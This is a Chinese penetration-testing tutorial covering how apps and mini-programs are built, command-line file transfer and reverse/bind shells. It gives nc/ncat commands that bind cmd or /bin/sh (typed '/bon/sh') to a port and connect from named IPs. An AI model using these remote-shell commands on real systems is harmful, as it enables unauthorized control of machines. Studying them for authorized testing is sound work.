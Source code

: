 其安全测试的策略就和常规的 web 测试的策略没有区别。

**用 html5 + vue 之类的前端语言开发 + APP 封装（直接使用了HbuiderX）**

界面由 html5 进行开发，数据传输用 vue 。

小程序也可以这样开发。

安全测试策略：要关注框架本身的安全问题和其提交数据的结构问题&js前端测试。

***小程序搭建基本上是用 html5 + vue 之类的前端语言开发或常规 web 开发 + 封装平台封装***

判断应用如何开发的最为稳妥的方式是反编译看源码，但基本上只凭经验也都可以看出。

# 渗透命令

分为常规命令和文件上传下载

## 文件上传下载命令

> 用于解决无图形化 & 数据传输。

自己去下载文件时，都会有一个下载地址，有的直接访问就可以下载，有的要在页面中点击下载等等，但在安全测试场景中（得到了某些权限，但只允许你输入命令行之类的），很多时候不允许这些图形化的操作，这时候需要命令来完成。

可以在 [棱角社区](https://forum.ywhack.com/shell.php) 上使用工具指定目标ip、端口与文件后查找相应命令。

## 反弹 shell

> 用于解决数据回显 & 数据通信问题

有的命令执行之后还会回传交互信息来让我们进行二次输入（比如设置用户密码之类的），我们不知道程序尚未退出，只是仍旧在等待输入的话，在我们的视角中就好像命令执行方卡死在那里动不了了，而通常来说我们往往是不会知道对方的页面会怎么显示的，所以需要靠反弹 shell 来回传这些交互信息。

另外，反弹 shell 还可以把对方的权限直接移交过来，命令可以相当于在本地运行。

用一个服务器操控另一个服务器时，有正向连接（主动连接）与反向连接（让对方主动连接）两种策略（正和反主要靠参照物来区分）

### 正向连接

linux 控制 windows

```shell
# win 绑定cmd到其本地5566端口
nc -e cmd -lvp 5566
# linux 主动连接目标5566
ncat 47.122.23.131 5566
```

linux 自带 nc 工具，但 win 需要下载第三方的 nc 。

windows 控制 linux 也差不多：

```shell
# linux 绑定sh到其本地5566端口
ncat -e /bon/sh -lvvp 5566
# win 主动连接目标5566
nc 47.94.236.117 5566
```
